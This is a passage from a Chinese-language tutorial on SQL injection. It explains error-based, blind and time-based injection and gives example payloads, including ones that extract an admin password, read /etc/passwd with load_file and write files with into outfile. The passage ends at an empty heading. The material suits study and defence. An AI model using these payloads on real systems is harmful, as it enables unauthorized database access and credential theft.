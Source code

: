 # SQL Injection

## 简介

SQL Injection，即SQL注入，是指攻击者利用服务端对用户输入处理的漏洞，输入一些SQL代码，通过闭合引号等手段使服务器将其作为SQL语句而执行，从而造成攻击者对目标数据库的非授权访问，可能产生数据泄露、损毁、篡改等。

## 姿势

### 错误回显注入

如果Web服务器开启了错误回显，通过对输入内容的报错回显可以推理SQL逻辑从而很容易构造Payload。

### 盲注

多数时候Web服务器并不会提供错误的回显，这时候我们需要借用盲注的技巧。

在盲注的情况下，攻击者需要一种手段来确认输入的Payload所产生的影响，而观察页面的变化是最常用的参照，比如以下Payload：

```js
业务URL：http://example.com/news.php?id=10
SQL逻辑：SELECT title, description, body FROM news WHERE id = 10

攻击Payload: ?id=10 and 1=2，造成查询为空，页面可能为空
```

当然以上Payload显示的页面异常也有可能是服务端检测到了非法Payload而做了处理的结果，所以确认注入点还需要后面的步骤。

```js
?id = 10 and 1=1返回页面正常说明确实有问题。
```

### Timing Attack

通过注入一些执行起来花费时间的SQL语句，观察Web请求的响应时间变化也可以判断是否存在SQL注入漏洞。

常用的函数：

MySQL：

```
benchmark(times,function)，benchmark某个函数function times次数
如benchmark(1000000, encode('hello','goodbye'))
sleep(seconds)，休眠seconds秒。
```

举例一个Payload：

```
10 union select if(substring(current,1,1)=char(119),benchmark(5000000,md5(1)) from (select database() as current) as tbl;
```

## 数据库攻击技巧

### 便利函数

database\(\) - 返回当前数据库名。

system\_user\(\) - 返回数据库的系统用户。

current\_user\(\) - 返回当前用户身份。

version\(\) - 数据库版本号。

### 常见技巧

猜解数据库版本：?id = 5 and substring\(@@version,1,1\)=4

判断表是否存在：?id = 5 union all select 1,2,3 from 表名

判断表中某列是否存在：?id = 5 union all select 1,2,列名 from 某表

具体猜解列中数据：?id = 5 and ascii\(substring\(\(select passwd from admin limit 0,1\),1,1\)&gt;64\) **二分法**

读取文件：?id = 5 union select 1,2,load\_file\('/etc/passwd'\) **需要读权限**

写文件：?id = 5 union select ... into outfile '/file' 或者 into dumpfile 'file'，dumpfile相比outfile更适合二进制文件。

### 流程



